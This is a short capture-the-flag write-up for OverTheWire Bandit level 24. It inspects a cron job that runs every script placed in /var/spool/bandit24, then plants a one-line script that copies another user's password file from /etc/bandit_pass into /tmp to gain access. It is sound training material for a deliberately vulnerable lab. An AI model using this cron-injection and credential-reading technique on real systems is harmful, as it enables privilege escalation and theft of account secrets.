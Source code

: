 # Level 24

We first ```cat``` */etc/cron.d/cronjob_bandit24* to see the following:  

```
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```  

We then ```cat``` into the */usr/bin/cronjob_bandit24.sh* to see the following:  

```
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done
 ]
```  

We then realize that all scripts are run by the cronjob in */var/spool/* directory. Because of this we create a script by redirecting ```cat /etc/bandit_pass/bandit24 > /tmp/pass_bandit24.txt``` to a file in the directory */var/spool/bandit24* so that it gets run. This is done by running the following:  

```
echo 'cat /etc/bandit_pass/bandit24 > /tmp/pass_bandit24.txt' > /var/spool/bandit24/a.sh &&   
chmod +x /var/spool/bandit24/a.sh &&  
sleep 1m &&  
cat /tmp/pass_bandit24.txt
```

Finally, we ssh to verify the passkey obtained above.

```ssh -p 2220 bandit24@bandit.labs.overthewire.org```
